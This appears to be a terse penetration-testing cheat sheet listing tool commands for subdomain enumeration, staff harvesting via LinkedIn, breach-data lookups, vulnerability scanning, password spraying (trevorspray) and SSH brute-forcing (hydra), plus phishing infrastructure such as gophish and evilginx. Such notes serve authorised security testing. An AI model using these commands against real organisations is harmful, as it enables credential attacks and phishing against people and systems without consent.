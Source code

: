 # subdomain enumeration
#### hackertarget
> Domain Profiler
#### shodan.io
> search org:"***[ORG NAME]***"  
> search domain:"***[TARGET DOMAIN]***
#### assetfinder
> assetfinder ***[TARGET DOMAIN]***  
#### dnsenum
> dnsenum ***[TARGET DOMAIN]***  
#### sublist3r
> python3 sublist3r.py -d ***[TARGET DOMAIN]***
# org mapping
#### crosslinked
> python3 crosslinked.py -f '{first}.{last}@domain.com' ***[ORG NAME]***
#### dorks
> site:"linkedin.com" "***[ORG NAME]***"  
#### leaks
> dehashed  
> snusbase  
# vuln scanning
#### nessus
#### hackertarget
> OpenVAS
# password attacks
#### trevorspray
trevorspray -u ***bob@evilcorp.com*** -p ***'Welcome123'*** --delay ***5***
#### hydra
hydra -L users.txt -P ***wordlist.txt*** ssh://***target host***
# infrastructure
### hosting/services
> digital ocean  
> amazon  
> mailgun  
### servers
> evilnginx2  
> gophish  
